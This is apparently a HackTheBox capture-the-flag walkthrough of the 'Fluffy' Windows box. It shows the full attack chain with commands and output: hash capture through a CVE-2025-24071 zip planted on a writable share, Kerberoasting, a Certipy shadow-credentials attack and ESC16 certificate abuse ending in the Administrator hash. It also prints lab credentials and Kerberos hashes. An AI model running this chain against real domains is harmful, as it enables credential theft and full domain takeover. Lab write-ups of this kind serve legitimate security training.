


## Overview
This is an Easy windows box that focuses on a newer CVE and something HackTheBox has been issuing more of which is covering Certificate Services. 
The main requirement of this box that I'd suggest you do prior to anything is updating your Certipy. It being the most up-to-date and you reading it's Wiki, essentially tells you how to get Administrator.
```bash
git clone https://github.com/ly4k/Certipy.git && cd Certipy && pipx install .
```

With that done you should be able to tackle this reliably.


## Enumeration
### Scenario

We have our initial creds:
- j.fleischman:j0elTHEM4n1990!

### nmap
However, we'll still start with the typical nmap scan

```bash
nmap -vv -sCV -Pn -T4 --min-rate 1000 -p- $ip
# Truncating the certificate output
```
```
# Nmap 7.97 scan initiated Sat Jul 19 13:36:41 2025 as: nmap -vv -sCV -oA nmap/fluffy -Pn -T4 --min-rate 1000 -p- 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up, received user-set (0.13s latency).
Scanned at 2025-07-19 13:36:42 HST for 361s
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-20 06:41:11Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49717/tcp open  msrpc         syn-ack Microsoft Windows RPC
49778/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53865/tcp): CLEAN (Timeout)
|   Check 2 (port 39710/tcp): CLEAN (Timeout)
|   Check 3 (port 5751/udp): CLEAN (Timeout)
|   Check 4 (port 64002/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-20T06:42:05
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 19 13:42:43 2025 -- 1 IP address (1 host up) scanned in 362.08 seconds
```

DNS is always worth attempting a zone transfer:
```bash
dig axfr fluffy.htb @$ip +short
; Transfer failed.
```
No go there. The rest of this box looks like a typical windows box with a fluffy.htb domain. Kerberos, SMB, RPC, WINRM

Let's try to see if we can enumerate via smb

```bash
nxc smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!'
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
alex@CA1|Fluffy:$ nxc smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share
```


### Wriiteable SMB Share
Perfect, we have an IT share that we can read...and write to?
Let's inspect.
```bash
smbclient.py fluffy.htb/j.fleischman:'J0elTHEM4n1990!'@fluffy.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# use IT
# ls
drw-rw-rw-          0  Mon Jul 21 02:47:29 2025 .
drw-rw-rw-          0  Mon Jul 21 02:47:29 2025 ..
drw-rw-rw-          0  Fri May 16 04:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-        328  Mon Jul 21 01:49:02 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 04:51:49 2025 KeePass-2.58
-rw-rw-rw-        328  Mon Jul 21 01:49:52 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 04:31:07 2025 Upgrade_Notice.pdf
```
Some file called Everything, KeePass, and a pdf.
The easiest thing to grab and check is the pdf initially. Perform a get on it



We see they _intend_ to patch some newer vulnerabilities.
I started from the first, and worked my way down. 
I couldn't find any POC for `CVE-2025-24996`, though after reading it I did try a few filepath tricks, but nothing seemed to work as I desired. It does share a very similar mechanism of action though to the next CVE.
[`CVE-2025-24071`](https://github.com/ThemeHackers/CVE-2025-24071) - This creates a zip file with a malicious .library-ms file whose file path gets automatically parsed. We can leverage this by utilizing `responder.py` to potentially steal some NTLM hashes.

* Terminal 1
```bash
responder -I tun0
```

* Terminal 2
```bash
py CVE-2025-24071.py -f meow -i $our_ip
## Creates an exploit.zip; On smbclient.py
use IT
put exploit.zip
```

```
[*] Skipping previously captured hash for FLUFFY\p.agila
```

We get a hash for p.agila; we try and crack it.

```bash
hashcat p.agila.hash /seclists/rockyou.txt
```

```
P.AGILA::FLUFFY:cd9a2ef9d2c6eb48:9efaf879d4457b65f4cef80859a175f9:0101000000000000801deb81b5f8db01de6e0b2563b6cebd000000000200080049004f003400370001001e00570049004e002d0045005800370045004e0055004b0056005a004300460004003400570049004e002d0045005800370045004e0055004b0056005a00430046002e0049004f00340037002e004c004f00430041004c000300140049004f00340037002e004c004f00430041004c000500140049004f00340037002e004c004f00430041004c0007000800801deb81b5f8db0106000400020000000800300030000000000000000100000000200000ba8090755d98aff6b7d1ec35228dc131567029126179c5b6d88ebcf342910de90a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0037000000000000000000:p{redacted}

```
### shell as p.agila
Great. Now, we could have done this eariler, but now is when I ran rusthound/bloodhound. To see what this new user might be able to get us.

```bash
rusthound -u p.agila -p $pass -d fluffy.htb -i $ip -c All
```

This reveals some wonderful things!

p.agila has `GenericAll` over the service accounts, and there's three service accounts.





The two juicy options are the winrm and the ca service accounts.
But how do we get them? Well Bloodhound gives us an example of `targetedKerberoast.py` so let's give it a go
We should also set our krb_config since we'll be querying kerberos now.
Utilizing this convenient [script](https://raw.githubusercontent.com/Phaze228/dotfiles/refs/heads/master/util_scripts/.local/bin/mkkrbconfig):
```bash
mkkrbconfig $ip 
export KRB5_CONFIG=./fluffy.htb.krb.conf
```

```bash
./targetedKerberoast.py -u p.agila -p $pass -D fluffy.htb -f hashcat -d fluffy.htb
```
```

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

 Oh! The clock skew! If you remember the nmap output, you'll see a clock skew number, mine was +7 hours, so we'll utilize faketime to adjust for it.

```bash

faketime -f +7hr ./targetedKerberoast.py -u p.agila -p prometheusx-303 -D fluffy.htb -f hashcat -d fluffy.htb
```
```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$<redacted>
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$a3b26b955a36ac680c18db06ca228f4f$aede371b34bb054049b38db7214b123eab9be57cfe1570059fc72d3b6bab6c889a4c95fd25486e540a31b17919c704e08bc393735339c00127c343d8c08e5daa152e5c373998478364be423281a664a588f59d733505b259b88dc7a7cf98617801f153511f734412a493e9a20a3bf404b5b680714f88f301f8c2f9d0bb500905f53bac48838caaec28a12d39d3bd6d617190c04ff020de816736d26c69387430ec98fa1b7cb3bfcd961ec2a2b17cd9ad116a10396a27a4c463a5137f7f3f503d53e5671fad1a6456e1b5c7042ed60f31fa8d64c40b4bbd3dbb22d9febec25018907d2b60080b2980f212838065ae9ab66ce4add21fc2bd2dd065a59049c6dcf9be0deaf32e4269bbe3f74b0f740a9a097ff5684f4d335710d487444b83b4e4b6f9c0cabfd4f53a62300779f5502e9d29b90dd80ce4cd97f7b60f2230695f1140afb85948170257fcbffcbdf06df1e9a711d202021ecd89aabc30e8ef19b6afc2d55e2e086ec79caddff6090a268bac10f4745a4a9abd74eabc5a9250c951b63bb9de70ec4369d1467941e989134c38e95d67e25b1aa50ac5de341a62833fe3e42a1389aa5daf0b2f2653c92bf557c38dcbbce8f8aebff39846bd4eabe53fe472fc3a866bd1d01daaf2bb23bed5c439ac7420a1f33780ad61531b4d02cabc75674df83bd496a879fa1fd2efee369a6510581eaec5c9cb0ff1fafb0117ca853ee8f5d7794c6b33668d3fdd673dfcaf2fd93aa7c06f108495a1114cbc01f393806ef25cc3fbc496742b968d080049552683c0ff3bf28b86d6149651da9dd18ab8123ac3b4dc8077239b39f757c9d3fff02a4defa9e107f671ed89e7d3c26df6c120b0185fac0750ff552003835ae2c229dc6c1e3b212ff9db67637000fde2a22a7eb003aabbd7e591878bff3d9b5d095b1d85dbd2c85be5cab2326d715a2b6d093a6<redacted>05c7ddf1db2b50b4be8b998de0120da755b74b73f8a4856942a25866cc3c0f8a1f94d53c87e759387ca974c65ce7625f3e5594154bda4cc67626d16ba755204b17c0d47078fc0a55fd79215a76a8f11b1ab3b2955e3ab401756dd083a232ede83d85333b0c24373eeb008dcf67d62d50983cd8c707225756bbe02ac0587a5ebe8471751363c3804e8fd586ef7942d09833f30fd32fb0f041b67c875ff54e11996ae178eca6dea310283d349756d67629d7919bfa760923c6dfb5e0c491a76503411ac653615bfe011b2797bce2bd8344aa4eb01a34a8ed45830d07a831d11dc388a404956ebeaf6c414fde8af0d5eee8f91814a3ce6d4c0fe9c79349d217a63ee2cc4c3e496e00da40c621d8aefeb683cc80eab914b39ba895f8c9f6bafda6749b74cab7a8c33385cf1017215bd2082d12a5c0a429c3f52fd32b4b7fb1a1142247b592f7eb11d62298e98643a5bca0f59ff5470145de8c7e522121fd03efced358e2dd9bf362dac
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$57e28a741f0f8ae2c5f136215be7f424$d3701f92bad6ab6120d8ce9edfbc254b3cd0bc832ee4325002fb2577001ef3a58bd0be7b925b81ccc01a66c6abe95dfe95ed7d903d4d0ae7e1dc3f9f90aaae1336941ee4f2765f4ebec70f38efab8911bf486412250636dba16c13a72108fa26dfaef688e201768528ed6e7aaac4e0c49b7cc1a16de81984275dc59af85affff4e62f3b7fb997c47587231f9507b1e166b1939f48e94064644020acf54f9c338bb10ee8086ab9aaa0ee5d8707467b0722273d560b4b06f85356d75158f267790f8634ab394fa3076e79fbd7cc92b7cd6d3a499115c7680da8ba4a733b8e01179c74cb2c40e0afff27ec1ef7fed2b8044007b98cc6076959efa89af28d5307b472f26c9027966d5f4953c2ec2cdb0016f5b80c71055c15a4728755f4a91c1748db2388555b085a7254b5e0c02f71937a77a542e00ca5d69149bca69381f7a797642b05021e44a67bd6e1316fdf1b92f418a3e6c6ea91d05f22de4d5f1eac5eb73512cd2bc06e48ce1fd33d5e7b683eb46e9ba0826455b3c812e8e39893d389aa715e0e3b89774ef50e7e54f19561ca27620d03c06d5e994eee88386d2d6a9dcbf9666bbe1100ec49b28826e47577f0bc380d75addf77abe79d96ebaa1cba6487178ba00966d25b77496ffc0d9dd17df60aaece2c186f8de3409f7baf02f1013f0a1f8413802a3666ffe81aa8d5683bded5859c5eccd29bf345e6a83fdb6941c75547ef7338c9bc022a0cb161a003f307d878b2882b3fbda2020960a04ae38e6cb2a3c0274809a01085e25dc9dd4669f6e327318bfade4e7cb98f27e00ddd744c74838fc3e3e3bba558bda13fdfe81f7719de6f5a72f6db31ff61d5409dbfc04d47b1475104bcfb1b0fda88b7d8b4ff576ec3f6d32844cdd52d4159361cc9a560154754a6e3c2011873dfcda157b3ddcf5ebe0fa253a7fb139c618f595b311a355070d9e3bdd60691cbfdb9175f3989d282e1f575bbf026ac6af91941ade890010d724c23def2b045cc8d65d3a9579e5ae6fe3448805aa92351e2cc536d465f3c6560eac944ab7f8c0610591bfbe56ac36fb98d33ad758e9e85507fcec475a4b4847ef96d7ec0daf2936d7475cbdaa72b625686d5f249572b7277dc6e617e67a068657ef916d09f9b4e051792d24cd1bea425041d010441dbee7adf5193146fa687a694e47ceccfc3dddba7c28f8da584ba93b0508258406dbad1f35058d51e290ae843de6fb8e9b32ba345994d193ea29b73e09e7aa72e51614d23a4382e23b9d2ac2e5c079da455421f79b756cd56cad889f9a5c214f99ab8dce9f6f86e85949d5eacd993b14cef39ca9ee26c1eba35cbf24ec3f3537db71ec0419aa1987f66f6ae574bb37b29de9736fb56a928e494e558f2c95153beff3d68a5f08434101a892f48e50942f2b980a4b011e9f0b7ecae15f87e6f51d71025fb1d90c481ca5e4dc1642d66f38de17c2a307f56ec0c3ce4b8e5c
```
Sweet, we have kerberos hashes.
Stick them in a file and see if we get any useable passwords...


```bash
hashcat svc.hashes /seclists/rockyou.txt
```
```
Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: svc.hashes
Time.Started.....: Sun Jul 20 21:41:53 2025 (1 sec)
Time.Estimated...: Sun Jul 20 21:41:54 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 44459.6 kH/s (4.84ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 0/3 (0.00%) Digests (total), 0/3 (0.00%) Digests (new), 0/3 (0.00%) Salts
Progress.........: 43033152/43033152 (100.00%)
Rejected.........: 0/43033152 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[30323133446f6d] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 50c Util: 35% Core:2370MHz Mem:8001MHz Bus:8

Started: Sun Jul 20 21:41:52 2025
Stopped: Sun Jul 20 21:41:56 2025

```


No dice...
Well I suppose this is where we probably try the other thing, pywhisker? But, remember at the start I mentioned certipy? This tool is packed with some really easy to use and powerful exploits. One of them is the `shadow`
To properly utilize this though, we have to note that p.agila is a member of the `Service Account Managers` which has `GenericAll` on `Service Accounts` and `Service Accounts` have `GenericWrite` on each other.
So we don't directly have the ability to change any attribute on service accounts.

So we can add p.agila as a service account in order to undergo this shadow attack

```bash
net rpc group addmem "Service Accounts" "p.agila" -U "fluffy.htb/p.agila%$pass" -S "dc01.fluffy.htb"
faketime -f +7hr certipy shadow -u p.agila -p $pass -dc-ip $ip -account 'ca_svc' auto
```
```
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '4caa3c3b6a264078ab1e690fe9c74906'
[*] Adding Key Credential with device ID '4caa3c3b6a264078ab1e690fe9c74906' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '4caa3c3b6a264078ab1e690fe9c74906' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc_fd02ff91-7351-4652-b7c8-bbe8494da456.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4<redacted>3bb03fc98c8

```

## Foothold & Lateral Movement
### winrm_svc & ca_svc 
Nice. We have a ticket, and an ntlm hash.


Just repeat the same command the `winrm_svc` account and check the desktop :)

## Escalation

So this would be extremely tricky to figure out without reading the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) and having an updated certipy.
First since we have the `ca_svc` account. We should definitely see what certificates we can see.
```bash
certipy find -u ca_svc -hashes $(cat ca_svc.hash) -target fluffy.htb -output fluffy_certs
```

Then we can inspect some of the certificates;
```json
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "fluffy-DC01-CA",
      "DNS Name": "DC01.fluffy.htb",
      "Certificate Subject": "CN=fluffy-DC01-CA, DC=fluffy, DC=htb",
      "Certificate Serial Number": "3670C4A715B864BB497F7CD72119B6F5",
      "Certificate Validity Start": "2025-04-17 16:00:16+00:00",
      "Certificate Validity End": "3024-04-17 16:11:16+00:00",
      "Web Enrollment": {
        "http": {
          "enabled": false
        },
        "https": {
          "enabled": false,
          "channel_binding": null
        }
      },
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Active Policy": "CertificateAuthority_MicrosoftDefault.Policy",
      "Disabled Extensions": [
        "1.3.6.1.4.1.311.25.2"
      ],
      "Permissions": {
        "Owner": "FLUFFY.HTB\\Administrators",
        "Access Rights": {
          "1": [
            "FLUFFY.HTB\\Domain Admins",
            "FLUFFY.HTB\\Enterprise Admins",
            "FLUFFY.HTB\\Administrators"
          ],
          "2": [
            "FLUFFY.HTB\\Domain Admins",
            "FLUFFY.HTB\\Enterprise Admins",
            "FLUFFY.HTB\\Administrators"
          ],
          "512": [
            "FLUFFY.HTB\\Cert Publishers"
          ]
        }
      },
      "[!] Vulnerabilities": {
        "ESC16": "Security Extension is disabled."
      },
      "[*] Remarks": {
        "ESC16": "Other prerequisites may be required for this to be exploitable. See the wiki for more details."
      }
    }
  },

```


ESC16, the security extension is disabled. Which brings us to the wiki I linked. 
It explains that with this particular disabled extension, the server doesn't have strong certificate binding. Meaning they don't bind directly to the user/account SID. They can fallback to `UserPrincipalNames` or `Domain Name Service` names. And with the ability to have a `GenericWrite` we can alter the UPNs of any service account. We can change the UPN to `Administrator`, request a certificate, change the UPN back and then authenticate with that certificate. 
The certificate is completely valid, and it only checks for the UPN, which in this case, is our desired privilege escalation.

The following is basically stolen straight from the wiki, it's surprisingly well written and explained which is a little uncommon for a pentesting tool to have documentation like this. Shout out to Oliver.

```bash
old_upn=$(certipy account -u ca_svc -hashes $(cat ca_svc.hash) -dc-ip $ip -user 'ca_svc' read | grep -oP  'userPrincipalName.*: \K.*')
certipy account -u ca_svc -hashes $(cat ca_svc.hash) -dc-ip $ip -user 'ca_svc' -upn 'administrator' update
certipy req -u ca_svc -hashes $(cat ca_svc.hash) -ca 'fluffy-DC01-CA' -dc-ip 10.10.11.69 -template 'User'
certipy account -u ca_svc -hashes $(cat ca_svc.hash) -dc-ip $ip -user 'ca_svc' -upn $old_upn update
# Need faketime, since we'll be querying kerberos for TGT
faketime -f +7hr $HOME/.local/bin/certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username 'administrator' -domain fluffy.htb

```
```
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa<redacted>e93f676c92a6e
```


And with a ticket in hand and a hash, you can pick your poison, to grab the flag.


